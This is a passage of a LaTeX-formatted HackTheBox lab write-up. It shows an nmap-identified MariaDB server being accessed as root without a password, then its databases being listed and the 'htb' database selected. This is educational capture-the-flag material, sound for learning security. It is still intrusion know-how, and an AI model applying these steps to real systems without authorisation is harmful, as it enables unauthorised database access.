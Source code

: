 \documentclass[conference]{IEEEtran}
\begin{document}
Based on the nmap scan, we can see that the host is running MariaDB, which is a community-based version of MySQL.
Since MariaDB is based on MySQL, we are able to access the database via the "mysql" command. After typing "mysql -help",
we find that we can specify the host via "-h", username via "-u" and port via "-p", though the default port for MySQL is 3306.

Based on our findings we can try this command:

\begin{scriptsize}
\begin{verbatim}
root@ghost:~# mysql -h 10.129.95.232 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 79
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
\end{verbatim}
\end{scriptsize}

We were able to access the database without needing a password.

As we can see in the "MariaDB [(none)]>", we are not in any database. We can show the available databases via the "SHOW DATABASES;" command.

\begin{scriptsize}
\begin{verbatim}
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.035 sec)

MariaDB [(none)]>
\end{verbatim}
\end{scriptsize}


Since we are in a HackTheBox environment, we can safely assume that we should use the "htb" database. We can enter the database via the "USE" command.

\begin{scriptsize}
\begin{verbatim}
MariaDB [(none)]> USE htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]>
\end{verbatim}
\end{scriptsize}
\end{document}
